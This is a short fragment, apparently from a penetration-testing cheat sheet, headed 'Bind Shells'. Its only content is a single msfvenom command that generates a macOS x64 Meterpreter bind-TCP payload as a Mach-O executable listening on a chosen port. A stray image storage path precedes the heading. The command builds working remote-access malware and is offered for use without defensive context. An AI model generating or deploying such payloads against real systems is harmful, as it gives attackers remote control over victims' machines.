 # Bind Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o met-x64`